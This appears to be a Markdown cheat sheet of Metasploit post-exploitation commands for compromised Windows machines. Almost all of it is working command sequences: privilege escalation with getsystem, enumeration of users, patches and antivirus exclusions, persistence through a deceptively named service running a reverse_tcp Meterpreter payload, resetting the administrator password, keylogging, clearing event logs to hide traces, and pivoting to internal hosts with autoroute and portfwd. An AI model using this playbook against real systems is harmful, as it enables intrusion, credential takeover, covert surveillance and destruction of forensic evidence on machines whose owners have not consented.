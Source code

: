 
Using the "getsystem" command to try and escalate privileges
```
getsystem
```
To get a list of mount or drives attached to the system
```
show_mount
```
To change the architecture of the meterpreter payload
```
search migrate
use post/windows/manage/archmigrate
```
To use the windows privileges module
```
use post/windows/gather/win_privs
```
To check what users are currently logged in and their SID's
```
use post/windows/gather/enum_logged_on_users 
```
To check if the target machine is a virtual machine
```
use post/windows/gather/checkvm
```
Checking the installed programs on the target system
```
use post/windows/gather/enum_applications
```
To check antivirus installed on the target's machine and to check the folders not being scanned by the antivirus program
```
use post/windows/gather/enum_av_excluded
```
To enumerate the computers part of the domain
```
use post/windows/gather/enum_computers
```
To check for installed patches which can help with privilege escalation
```
use post/windows/gather/enum_patches
```
To enumerate for shares
```
use post/windows/gather/enum_shares
```
To enable rdp on the target's device
```
use post/windows/manage/enable_rdp
```




<h4>Establishing Persistence on windows</h4>

Establishing persistence
```
search platform:windows persistence
```
Choosing one
```
use exploit/windows/local/persistence_service
set payload windows/meterpreter/reverse_tcp
set service_name (this should be something deceitful)
set SESSION
```
After killing all the sessions, to enable persistence
```
use multi/handler
```
Set payload that was set for the persistence
```
set payload windows/meterpreter/reverse_tcp
```
Set LPORT to what you set it as when you were doing the persistence
```
set LHOST
set LPORT
```



<h4>Enabling RDP</h4>

To enable rdp, background the session
```
use post/windows/manage/enable_rdp
set session
```
Enabling rdp requires username and password, since we have a meterpreter shell as Administrator we can go ahead and change the user's credentials or should i say the administator's password
To change the administrator's password
```
net user administrator hacker_123321
```


<h4>Windows Keylogging</h4>

This is using the "keystroke" command, after getting a meterpreter session

To start
```
keyscan_start
```
To dump the captured key strokes
```
keyscan_dump
```
To stop the sniffer
```
keyscan_stop
```




<h4>Clearing windows event logs</h4>

To clear
```
clearev
```


<h4>Pivoting</h4>

Here, you have 2 ips, victim_1 and victim_2. victim_1 can be scanned using metasploit but victim_2 can't which means it can only be accessed internally. 

Getting a meterpreter shell on the victim_1 IP

To access the second IP, we can add a route, since we know  that victim 2 Ip is part of the same subnet victim 1 is in 
On your metepreter shell, the ip to route will be the victim 1 ip
```
run autoroute -s 10.10.10.0/20
```
This will add a route to the network
You can rename the previous meterpreter session
```
sessions -n victim-1 -i 1
```

>Just because we added a route doesn't mean we can use external tools like nmap. We can make use of the nmap module in metasploit

```
use auxiliary/scanner/portscan/tcp
set RHOSTS victim_2
```
Portforwarding from victim_2 to victim_1
Going over to the opened meterpreter session
```
portfwd add -l 1234 -p 80 -r $victim2_ip

-l--> port you want to forward to
-p--> port you want to forward
-r--> ip address of the port you want to forward
```
So, you can access port 80 of victim 2 on port 1234 of your local host

To get a meterpreter shell
```
set payload windows/meterpreter/bind_tcp
```
